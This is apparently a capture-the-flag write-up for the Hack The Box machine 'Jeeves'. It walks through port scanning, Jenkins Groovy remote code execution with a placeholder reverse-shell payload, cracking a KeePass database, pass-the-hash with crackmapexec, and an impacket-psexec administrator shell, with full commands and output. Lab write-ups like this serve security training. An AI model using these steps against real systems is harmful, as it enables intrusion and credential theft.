



# Jeeves
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.63 -T4             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 07:05 BST
Nmap scan report for 10.10.10.63 (10.10.10.63)
Host is up (0.092s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```
```
└─$ nmap -Pn -p80,135,445,50000 -sC -sV 10.10.10.63 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 07:13 BST
Nmap scan report for 10.10.10.63 (10.10.10.63)
Host is up (0.12s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-01T11:12:45
|_  start_date: 2023-09-01T09:45:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m24s, deviation: 0s, median: 4h59m24s

```
- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.63/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/09/01 07:31:16 Starting gobuster in directory enumeration mode
===============================================================
Progress: 441122 / 441122 (100.00%)
```
- `smb`
```
└─$ smbclient -N -L //10.10.10.63     
session setup failed: NT_STATUS_ACCESS_DENIED
```
- Port `50000`


```
└─$ gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/09/01 07:38:22 Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]

```

## Foothold / User
- http://10.10.10.63:50000/askjeeves/


- We can perform one of the techniques specified in this [post](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security#rce-in-jenkins)
  - I used 'groovy script` way
  - `println "<powershell bas64-encrypted-payload>".execute()`
    - Payload from https://www.revshells.com/




## Root
- `kohsuke` user
```
PS C:\Users\kohsuke> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
```
PS C:\Users\kohsuke> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 
```
- We have `kdbx` file in `Documents` directory
```
PS C:\Users\kohsuke> ls documents


    Directory: C:\Users\kohsuke\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              
```

- Let's download it
  - We can create `Freestyle Project` in `Jenkins` and copy files to that project


```
PS C:\Users\Administrator\.jenkins> ls


    Directory: C:\Users\Administrator\.jenkins


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         9/1/2023   8:47 AM                jobs                                                                  
d-----        11/3/2017  10:33 PM                logs                                                                  
d-----        11/3/2017  10:33 PM                nodes                                                                 
d-----        11/3/2017  10:44 PM                plugins                                                               
d-----         9/1/2023   8:48 AM                secrets                                                               
d-----        11/8/2017   8:52 AM                updates                                                               
d-----        11/3/2017  10:33 PM                userContent                                                           
d-----        11/3/2017  10:33 PM                users                                                                 
d-----        11/3/2017  10:47 PM                war                                                                   
d-----        11/3/2017  10:43 PM                workflow-libs                                                         
d-----         9/1/2023   8:48 AM                workspace                                                             
-a----         9/1/2023   8:17 AM             48 .owner                                                                
-a----         9/1/2023   5:46 AM           1684 config.xml                                                            
-a----         9/1/2023   5:46 AM            156 hudson.model.UpdateCenter.xml                                         
-a----        11/3/2017  10:43 PM            374 hudson.plugins.git.GitTool.xml                                        
-a----        11/3/2017  10:33 PM           1712 identity.key.enc                                                      
-a----        11/3/2017  10:46 PM             94 jenkins.CLI.xml                                                       
               9/1/2023   7:42 AM          80690 jenkins.err.log                                                       
-a----        11/3/2017  10:47 PM         360448 jenkins.exe                                                           
-a----        11/3/2017  10:47 PM            331 jenkins.exe.config                                                    
-a----         9/1/2023   5:46 AM              4 jenkins.install.InstallUtil.lastExecVersion                           
-a----        11/3/2017  10:45 PM              4 jenkins.install.UpgradeWizard.state                                   
-a----        11/3/2017  10:46 PM            138 jenkins.model.DownloadSettings.xml                                    
             10/25/2022  12:41 PM           2856 jenkins.out.log                                                       
-a----         9/1/2023   5:46 AM              4 jenkins.pid                                                           
-a----        11/3/2017  10:46 PM            169 jenkins.security.QueueItemAuthenticatorConfiguration.xml              
-a----        11/3/2017  10:46 PM            162 jenkins.security.UpdateSiteWarningsConfiguration.xml                  
-a----        11/3/2017  10:47 PM       74271222 jenkins.war                                                           
-a----         9/1/2023   5:46 AM          36360 jenkins.wrapper.log                                                   
-a----        11/3/2017  10:49 PM           2881 jenkins.xml                                                           
-a----         9/1/2023   5:46 AM            907 nodeMonitors.xml                                                      
-a----        11/3/2017  10:47 PM            129 queue.xml.bak                                                         
-a----        11/3/2017  10:33 PM             64 secret.key                                                            
-a----        11/3/2017  10:33 PM              0 secret.key.not-so-secret                                              


PS C:\Users\Administrator\.jenkins> cd workspace
PS C:\Users\Administrator\.jenkins\workspace> ls


    Directory: C:\Users\Administrator\.jenkins\workspace


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         9/1/2023   8:48 AM                pentest                                                               


PS C:\Users\Administrator\.jenkins\workspace> cd pentest
PS C:\Users\Administrator\.jenkins\workspace\pentest> ls
PS C:\Users\Administrator\.jenkins\workspace\pentest> copy C:\Users\kohsuke\documents\CEH.kdbx .
PS C:\Users\Administrator\.jenkins\workspace\pentest> ls


    Directory: C:\Users\Administrator\.jenkins\workspace\pentest


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx           
```

- Now we can download it from `jenkins`


- Let's crack it using `john`
  - First we convert it using `keepass2john`
  - Then pass it to `john`
    - Or `hashcat` if you want
    - 

```
└─$ keepass2john CEH.kdbx > CEH.hash
```
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash             
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:38 DONE (2023-09-01 09:23) 0.02623g/s 1442p/s 1442c/s 1442C/s mwuah..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Let's open it in `keepass` (or `kpcli`)
  - We have bunch of passwords
  - Let's extract them and pass them to `crackmapexec`



- But none of them work

```
└─$ cat passwords      
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```
```
└─$ crackmapexec smb 10.10.10.63 -u Administrator -p passwords 
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:12345 STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:pwndyouall! STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE 
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:Password STATUS_LOGON_FAILURE 
```

- The `Backup Stuff` entry in `keepass` looks like a `lm:ntlm` hash
  - `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`




- Let's try `crackmapexec` with it

```
└─$ crackmapexec smb 10.10.10.63 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' 
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

- Get `Administrator` shell using `psexec`


```
└─$ impacket-psexec Administrator@10.10.10.63 -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file nEgujjRd.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service tTjL on 10.10.10.63.....
[*] Starting service tTjL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

- No `root` flag

```
c:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,655,694,848 bytes free
```
- If we check alternative data stream with `dir /R`, we see it
```
c:\Users\Administrator\Desktop> dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,655,694,848 bytes free

c:\Users\Administrator\Desktop> 
```

- We can read it with `more < hm.txt:root.txt`